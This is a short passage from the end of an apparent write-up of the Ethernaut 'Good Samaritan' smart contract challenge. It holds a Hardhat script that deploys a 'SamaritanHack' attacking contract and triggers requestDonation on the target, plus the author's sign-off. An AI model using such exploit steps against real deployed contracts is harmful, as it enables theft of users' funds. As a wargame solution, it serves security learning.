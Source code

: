 ```javascript
const SamaritanHack = await hre.ethers.getContractFactory("SamaritanHack");
samaritanHack = await SamaritanHack.deploy()
await samaritanHack.deployed()

tx = await samaritanHack.requestDonation(goodSamaritan.address)
await tx.wait()
```

--- 
---

Thanks for reading. Hmu [@0xsomesh](https://twitter.com/0xsomesh) if you would like to discuss security, get a second opinion on a smart contract or any doubts regarding the ethernaut challenges and my solutions. Happy hacking!




